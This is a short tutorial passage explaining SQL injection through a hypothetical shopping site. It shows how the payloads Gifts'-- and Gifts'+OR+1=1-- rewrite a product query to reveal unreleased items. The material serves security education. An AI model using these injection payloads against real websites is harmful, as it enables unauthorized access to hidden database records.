 # Retrieving hidden data

Imagine a shopping application that displays products in different categories. When the user clicks on the **Gifts** category, their browser requests the URL:
```bash
https://insecure-website.com/products?category=Gifts
```
This causes the application to make a SQL query to retrieve details of the relevant products from the database:
```bash
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This SQL query asks the database to return:
all details `(*)`<br>
from the `products` table<br>
where the `category` is `Gifts`<br>
and `released` is `1`<br>


The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:
```bash
https://insecure-website.com/products?category=Gifts'--
```
This results in the SQL query:
```bash
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Crucially, note that `--` is a comment indicator in SQL
You can use a similar attack to cause the application to display all the products in any category, including categories that they don't know about:
```bash
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```
This results in the SQL query:
```bash
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```




